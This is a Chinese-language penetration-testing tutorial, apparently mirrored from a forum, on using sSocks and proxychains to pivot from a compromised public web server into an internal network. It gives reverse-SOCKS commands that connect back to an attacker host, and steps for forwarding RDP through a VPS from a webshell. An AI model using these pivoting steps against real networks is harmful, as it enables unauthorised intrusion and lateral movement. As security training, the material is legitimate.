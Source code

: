 # ssocks

> 原文：[https://www.zhihuifly.com/t/topic/3453](https://www.zhihuifly.com/t/topic/3453)

# 利用ssocks进行内网穿透

sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，而proxychains代理链是Linux下一款代理设置工具。由于Ssocks不稳定，所以不建议使用。
现在有这么一个环境，我们获取到了位于公网Web服务器的shell，该web服务器是Linux系统，内网中存在另外一台主机，这里假设内网存在一台Web服务器。然后，我们现在要将公网Web服务器设置为代理，访问和探测内网Web服务器的信息。

首先，我们的主机和公网的Web服务器都得安装上Ssocks。
proxychains的话 linux(基于debian)下直接apt install proxychains 就可以了
####Web服务器的操作

```
./rssocks -vv -s 100.100.10.13:9999   #接收100.100.10.13的9999端口的流量 
```

![image](img/a5833695ecff94600610c1312debdcf9.png)

## 主机的操作

```
首先配置proxychains代理链的配置文件，把最后的内容改成  socks5 127.0.0.1 8080 

./rcsocks -l 1080 -p 9999 -vv   #然后将本地的1080端口的流量转发到9999端口

接下来，我们想要访问和操作操作内网主机192.168.10.19的话，只需要在命令前面加上 proxychains

比如，获得内网Web服务器的网页文件： proxychains curl 192.168.10.19 
```

![image](img/1f8055ef7e45cf7bc7cc2d619ea9d331.png)

![image](img/32d0ea47a0e5642efc44c8727090e7c0.png)

## ssocks转发的其他操作

```
第一步，用sSocks在VPS上建立3388与3389端口对应关系，实现流量互通：

root @ kali：〜＃/ root / ssocks-0.0.14 / src / rcsocks -l 3389 -p 3389 -vv

第二步，从攻击端连接VPS的3388端口，建议用freerdp而非rdesktop，因为前者支持远程与本地连接等待，文本复制粘贴，挂载远程文件系统：

root @kali：〜＃xfreerdp / u：administrator / p：admin / v：【你的ip】：3389

第三步，立即在大马上执行端口转发，可能需要连续多次点击开始： `注意，整个过程对步骤先后顺序敏感，VPS上rcsocks端口映射好以后就可以不管了，先在攻击端执行xfreerdp，让其会话保持，再在webshel​​l上转发内网的3389。` 
```